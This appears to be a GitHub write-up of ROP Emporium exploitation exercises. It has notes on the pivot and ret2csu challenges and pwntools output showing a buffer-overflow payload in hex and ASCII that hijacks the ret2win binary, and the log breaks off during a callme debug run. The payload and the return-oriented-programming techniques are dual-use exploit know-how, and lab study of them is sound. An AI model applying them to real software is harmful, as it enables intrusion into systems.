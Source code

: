 
* Challenge 7: pivot: The solution wasn't as simple as just throwing the new stack location onto the stack(Yes, I tried that thinking it would work for some reason). The key was setting the stack pointer to the new location. I also spent some time trying different ways to read the location from the terminal in order to grab it and include it in the ROP chain. The file `bytefinder.py` is the scratch file I used to look at loading and searching a file. This was fairly straightforward, set the new stack location and throw 

* Challenge 8: ret2csu: After watching the related Black Hat talk 2-3 times, I found this challenge to be fairly straightforward. It shares a filename with callme that can break this challenge if you have the wrong one unzipped. I found this one to be fairly straightforward and easy after reading the paper.

# Solution Output

Notice the flag from `callme` doesn't return. Also notice that callme is still being run as `gdb.debug("./callme")` instead of `process("./callme")` because I forgot to swap it back after hunting down that source of the faliure? 
```
[x] Starting local process './ret2win'
[+] Starting local process './ret2win': pid 5024
Payload in hex: 4141414141414141414141414141414141414141414141414141414141414141414141414141414170074000000000005607400000000000
Payload in ASCII: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp\x07@\x00\x00\x00\x00\x00V\x07@\x00\x00\x00\x00\x00'
[x] Receiving all data
[x] Receiving all data: 0B
[x] Receiving all data: 296B
[x] Receiving all data: 329B
[+] Receiving all data: Done (329B)
[*] Process './ret2win' stopped with exit code 0 (pid 5024)
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}

[x] Starting local process './split'
[+] Starting local process './split': pid 5027
[x] Receiving all data
[x] Receiving all data: 0B
[x] Receiving all data: 87B
[x] Receiving all data: 120B
[+] Receiving all data: Done (120B)
[*] Stopped process './split' (pid 5027)
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}

[x] Starting local process '/usr/bin/gdbserver'
[+] Starting local process '/usr/bin/gdbserver': pid 5030
[*] running in new terminal: ['/usr/bin/gdb', '-q', './callme', '-x', '/tmp/pwnlib-gdbscript-m1vphqyz.gdb']
[x] Receiving all data
[x] Receiving all data: 0B
[x] Receiving all data: 79B
```